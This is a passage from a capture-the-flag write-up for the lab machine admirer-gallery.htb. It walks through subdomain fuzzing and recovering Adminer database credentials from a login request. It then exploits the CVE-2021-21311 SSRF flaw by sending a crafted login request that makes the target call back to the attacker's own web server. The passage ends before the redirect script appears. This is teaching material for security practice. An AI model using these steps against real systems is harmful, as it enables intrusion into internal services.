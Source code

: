 ### Virtual Host Scanning

Now that we know the domain name, we can scan for other virtual hosts. Let's scan for subdomains with `ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://admirer-gallery.htb/ -H "Host: FUZZ.admirer-gallery.htb" -fs 14099`:

```
db                      [Status: 200, Size: 2569, Words: 113, Lines: 63]
```

Let's add the new `db` subdomain to `/etc/hosts`: `echo "10.10.11.137 db.admirer-gallery.htb" | sudo tee -a /etc/hosts`.

### Adminer

Navigating to `http://db.admirer-gallery.htb` shows that it is running [Adminer](https://www.adminer.org/) version 4.7.8. Adminer "is a full-featured database management tool written in PHP. Conversely to phpMyAdmin, it consist of a single file ready to deploy to the target server."

Clicking on the "Login" button brings us to a database management page. Looking at the network tab in developer tools we can see that a post request was made when clicking the button with the below data:

```
auth[driver]: "server"
auth[server]: "localhost"
auth[username]: "admirer_ro"
auth[password]: "1w4nn4b3adm1r3d2!"
auth[db]: "admirer"
auth[permanent]: "1"
```

So, we have database credentials, but trying them in various places does not do anything.

Searching for "adminer 4.7.8 exploit" online finds [CVE-2021-21311](https://nvd.nist.gov/vuln/detail/CVE-2021-21311): "Adminer is an open-source database management in a single PHP file. In adminer from version 4.0.0 and before 4.7.9 there is a server-side request forgery vulnerability. Users of Adminer versions bundling all drivers (e.g. `adminer.php`) are affected. This is fixed in version 4.7.9." Here is a [great article by PortSwigger about SSRF exploits](https://portswigger.net/web-security/ssrf).

Looking around at the relevant links for `CVE-2021-21311`, we find [this pdf](https://github.com/vrana/adminer/files/5957311/Adminer.SSRF.pdf) describing how to exploit the vulnerability.

Essentially, we can modify the login request that was sent such that `driver` is set to "elasticsearch" and `server` is set to a server running on our machine that returns a `301` redirect to a website we want to access. This can be an internal website running locally, which will hopefully contain sensitive information.

Let's test the vulnerability by starting a webserver on our machine with `python3 -m http.server 80`. Then, we can intercept the login request using BurpSuite and change it to look like so: `auth%5Bdriver%5D=elastic&auth%5Bserver%5D=10.10.14.169&auth%5Busername%5D=admirer_ro&auth%5Bpassword%5D=1w4nn4b3adm1r3d2%21&auth%5Bdb%5D=admirer&auth%5Bpermanent%5D=1`. We changed the `driver` to `elastic` and the `server` to our `tun0` ip address. Forwarding the request in BurpSuite produces the following in our http server logs: `10.10.11.137 - - [27/Feb/2022 16:54:22] "GET / HTTP/1.0" 200 -`, which means the application is visiting our page. Now, we can use the [script included in the poc pdf](https://gist.github.com/bpsizemore/227141941c5075d96a34e375c63ae3bd) to start a basic server that `301` redirects where we want:
